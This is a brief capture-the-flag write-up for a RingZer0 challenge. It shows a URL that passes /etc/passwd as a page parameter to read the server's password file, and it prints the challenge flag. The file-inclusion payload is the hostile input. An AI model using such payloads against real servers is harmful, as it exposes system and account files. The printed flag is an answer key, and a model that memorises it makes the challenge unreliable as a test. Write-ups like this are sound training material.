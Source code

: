 # [Looking for Password File](http://ringzer0team.com/challenges/75)

[Password File](https://en.wikipedia.org/wiki/Passwd) is just where it was: `/etc/passwd`! Just ask the challenge for it:
```
http://ringzer0team.com:1008/?page=/etc/passwd
```

Search the page for flag and here it is: **FLAG-zH9g1934v774Y7Zx5s16t5ym8Z**

The flag is the [Gecos Field](https://en.wikipedia.org/wiki/Gecos_field) of user **nobody**. Well!